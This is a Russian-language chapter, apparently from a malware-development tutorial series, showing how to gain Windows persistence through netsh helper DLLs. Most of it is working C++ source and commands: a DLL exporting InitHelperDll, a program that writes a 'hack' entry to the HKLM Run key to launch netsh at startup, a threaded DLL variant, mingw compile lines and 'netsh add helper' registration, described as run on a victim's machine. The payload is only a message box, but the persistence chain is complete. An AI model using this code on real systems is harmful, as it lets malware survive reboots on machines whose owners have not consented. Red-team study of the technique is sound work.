\newpage
\subsection{72. Разработка вредоносного ПО: закрепление (persistence) - часть 6. Windows netsh helper DLL. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Этот раздел является продолжением серии статей о техниках и трюках о закреплении вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования ещё одного метода закрепление в системе Windows: Netsh Helper DLL.    

### netsh

**Netsh** - это утилита Windows, которую администраторы могут использовать для настройки встроенного брандмауэра Windows и выполнения задач по конфигурации сети. Функциональность Netsh можно расширять с помощью DLL-файлов.

Эта возможность позволяет красным командам загружать произвольные DLL-файлы для выполнения кода и, следовательно, обеспечения закрепления с использованием этого инструмента. Однако для реализации данной техники требуются права локального администратора.

### практический пример

Рассмотрим практический пример. Сначала создадим вредоносную DLL:

```cpp
/*
evil.cpp
simple DLL example for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Скомпилируем её:

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}    

Затем передаём DLL на целевую машину жертвы.

Netsh взаимодействует с другими компонентами операционной системы через файлы динамических библиотек (DLL). Каждая вспомогательная DLL netsh предлагает полный набор функций. Функциональность Netsh можно расширить, используя DLL:

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

{width="80%"}    

Затем можно использовать команду `add helper`, чтобы зарегистрировать DLL в утилите `netsh`:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil.dll
```

{width="80%"}    

{width="80%"}    

Всё работает идеально!

Однако `netsh` по умолчанию не запускается автоматически. Для обеспечения закрепления на хосте можно создать ключ реестра, который выполнит приложение при запуске Windows. Это можно сделать с помощью следующего скрипта:

```cpp
/*
pers.cpp
windows persistence via netsh helper DLL
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // netsh
  const char* netsh = "C:\\Windows\\SysWOW64\\netsh";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 
    0, REG_SZ, (unsigned char*)netsh, strlen(netsh));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видите, этот скрипт похож на тот, что я использовал в своем посте о [закреплении через ключи реестра Run keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html).

Проверяем ключи реестра Run:

```powershell
reg query \
"HKLM\Software\Microsoft\Windows\CurrentVersion\Run" \
 /s
```

{width="80%"}    

Компилируем скрипт:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Запускаем на машине жертвы:      

```powershell
.\pers.exe
```

{width="80%"}    

Когда команда `add helper` выполняется для загрузки DLL, создаётся следующий ключ реестра:     

{width="80%"}    

Однако есть одна оговорка. Логика PoC требует обновления, чтобы создать новый поток, позволяя netsh продолжать работу, пока выполняется вредоносный код. Однако, когда netsh завершается, прекращается и выполнение вредоносного кода.

Давайте попробуем это исправить. Создадим новую DLL (`evil2.cpp`):

```cpp
/*
evil2.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

DWORD WINAPI Meow(LPVOID lpParameter) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 1;
}

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  HANDLE hl = CreateThread(NULL, 0, Meow, NULL, 0, NULL);
  CloseHandle(hl);
  return 0;
}
```

Компилируем:

```bash
x86_64-w64-mingw32-gcc -shared -o evil2.dll evil2.cpp -fpermissive
```

{width="80%"}    

Повторяем шаги снова:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil2.dll
```

{width="80%"}    

Как видите, всё работает, `netsh` остаётся доступным. Проверим ключ реестра для проверки:

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

{width="80%"}    

Так как этот метод основан на эксплуатации системных функций, его сложно предотвратить с помощью стандартных защитных механизмов.

[netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts)    
[MITRE ATT&CK: Netsh Helper DLL](https://attack.mitre.org/techniques/T1546/007/)    
[исходный код на github](https://github.com/cocomelonc/2022-05-29-malware-pers-6)    
